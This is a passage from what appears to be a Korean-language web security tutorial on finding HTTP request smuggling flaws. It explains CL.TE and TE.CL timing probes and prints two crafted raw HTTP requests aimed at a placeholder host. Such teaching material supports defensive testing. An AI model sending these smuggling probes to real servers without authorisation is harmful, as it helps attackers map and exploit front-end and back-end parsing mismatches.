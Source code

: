 ![TE-TE Request](3.png)


# 📌 03. 취약점 탐색
## 03-01. 요청 시간 지연을 이용한 방법
### CL.TE 취약점
웹 어플리케이션이 HTTP request smuggling CL.TE 공격에 취약한 경우, 아래 패킷 보내면 종종 응답 시간 지연이 발생합니다.

Front-end 서버는 Content-Length를 이용하기 때문에 A 까지만 받아들여 X를 생략하고 Back-end 서버로 전달합니다. Back-end 서버에서는 A 이후  다음 chunk를 대기하므로 시간 지연이 발생합니다.

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

### TE.CL 취약점

TE.CL 공격에 취약한 경우, 아래 패킷 보내면 종종 응답 시간 지연이 발생합니다.

Front-end 서버는 Transfer-Encoding을 이용하기 때문에 0을 만나 패킷의 내용이 끝난 것으로 인식한 후 Back-end 서버로 해당 패킷을 전달합니다. 

Back-end 서버에서는 Content_Length를 확인하여 Body가 6 bytes 인 것으로 예상하므로 0 이후의 내용이 전달되길 기다리게 됩니다.

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
